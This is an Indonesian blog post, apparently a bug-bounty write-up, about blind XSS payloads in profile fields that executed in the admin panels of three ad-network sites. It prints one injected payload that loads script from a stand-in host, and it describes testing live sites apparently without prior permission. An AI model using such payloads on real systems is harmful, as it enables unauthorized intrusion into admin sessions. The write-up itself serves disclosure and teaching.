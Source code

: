 ```yaml
---
layout: post
title: Mengintip Admin Panel situs Ad Networks
date: 2018-08-22 04:10:00 PM
permalink: project/2018-08-22-mengintip-admin-panel-situs-ad-networks/
author: xhellc0de
categories: pentesting
tags: vulnerability xss blind-xss bug-bounty
---
```

![Image of Ad Networks](https://noobsec.org/images/ad_network.png)

Karena kehidupan yang semakin sulit, banyaknya biaya hidup yang harus dipenuhi maka saya pun mencoba untuk mencari pendapatan tambahan dari Internet *(curhat)*. Salah satu yang saya lakukan adalah mencari uang dari situs periklanan atau biasa dikenal dengan Ad Networks. Ada banyak sekali situs Ad Networks di jagat internet ini, mulai dari yang paling terkenal milik Google yaitu Google Adsense, dan situs-situs Ad Networks lainnya.

Beberapa waktu lalu, saldo pada situ Ad Networks saya sudah mencapai batas yang dapat di-withdraw. Dan saya pun segera melakukan penarikan pada situs tersebut. Ketika mau melakukan withdraw, saya iseng mengganti nama pada profile dengan menambahkan payload XSS didalamnya. Berharap payload tersebut akan tereksekusi di panel admin dan saya bisa melihat-lihat dalemannya hehe.

Selang beberapa waktu, benar saja payload saya tereksekusi di admin panel Ad Networks tersebut. Saya berhasil melakukan **Blind XSS** pada situs tersebut.

![Image of Ad Networks Panel](https://noobsec.org/images/b1_panel.png)

**Blind XSS** merupakan salah satu jenis XSS yang cukup unik. Kita tidak bisa melihat kapan dan dimana payload akan tereksekusi, bahkan sering kali tidak tereksekusi. Maka dari itu disebut Blind, alias buta. Payload yang kita buat umumnya tereksekusi di aplikasi lain yang saling terhubung pada satu database.

Untuk kasus yang saya temukan ini, saya memasukan payload XSS pada Member Area Ad Networks, lalu saya melakukan **Wihtdrawal Request** yang dimana pastinya diperlukan pengecekan secara manual oleh Admin sebelum melakukan proses **Wihtdrawal** yang saya minta. Maka Admin membuka halaman yang berisi **Withdrawal Request** pada situsnya, dan pada halaman tersebut ada **Field Full Name** yang sebelumnya saya isi dengan Payload XSS pada Member Area saya.

Berikut ini contoh source code dari Field Full Name setelah saya isi payload XSS:

```
<td style="color:black;cursor:pointer;" userid="x" class="userid userid_x">
  John Smith"&gt;<script src="https://malicious.script/"></script>
</td>
```

Karena saya merupakan orang yang jujur dan baik hati. Maka saya segera melapor pada Admin situs tersebut terkait bug yang saya temukan. Tidak lupa pula menanyakan apakah ada reward yang saya dapatkan haha..

![Image of Ad Networks Email](https://noobsec.org/images/b1_email.png)

Tidak lama admin dari situs tersebut membalas email dan memberikan saya reward terkahit bug yang saya temukan. Lumayan, Withdraw nya jadi dobel hehe..

**Dari bug ini saya diberi reward sebesar $250. (Alhamdulillah)**

Tidak berhenti sampai disitu, saya pun mencoba hal yang sama pada situs Ad Networks yang lain. Karena situs mereka adalah situs penghasil uang, sudah pasti mereka punya uang dan mungkin mau memberi reward seperti pada situ yang awal tadi.

![Image of Kamen](https://noobsec.org/images/kamen.gif)

Pada situs berikutnya, payload XSS saya masukan pula pada field Full Name dan tereksekusi di Halaman **Channel List** pada panel admin. Halaman itu berisi daftar dari publisher yang ada pada situs tersebut. Walaupun pada awalnya mereka menyangkal dan tidak percaya bahwa ada bug di situs mereka, akhirnya mereka pun percaya setelah saya gunakan **alert** untuk memunculkan popup pada admin panel mereka XD

![Image of Ad Networks Panel](https://noobsec.org/images/b2_panel.png)

**Dari bug ini saya diberi reward sebesar $50. (Alhamdulillah)**

Yang terakhir saya menemukan bug yang sama pada situs Ad Networks asal Rusia. Kali ini payload tereksekusi di halaman Affiliates pada **Field User Skype**. Karena pada member Panel nya terdapat field Skype dan hanya field itu yang bisa diisi dengan payload XSS, field lainnya diproteksi sehingga tidak bisa memasukan HTML Tag.

![Image of Ad Networks Panel](https://noobsec.org/images/b3_panel.png)

Tidak seperti situs sebelumnya, admin situs ini sangat ramah dan sangat cepat tanggap. Bahkan ini merupakan **Bounty Hunting** tercepat yang saya alami. Proses dari mengirim report sampai diberi reward memakan waktu kurang dari 2 jam!

![Image of Ad Networks Email](https://noobsec.org/images/b3_email1.png)

![Image of Ad Networks Email](https://noobsec.org/images/b3_email2.png)

```
15 Aug 2018 22:23 = Reported
15 Aug 2018 23:06 = Rewarded
```

**Dari bug ini saya diberi reward sebesar $100. (Alhamdulillah)**

Begitulah cerita singkat saya *mengintip* admin panel ada situ Ad Networks. Semoga bisa memberi inspirasi bagi kalian semua para tukang ngintip wkwk. Mengintiplah untuk sesuatu yang baik, karena segala sesuatu yang baik akan membawa hasil yang baik pula.

Referensi:

https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/
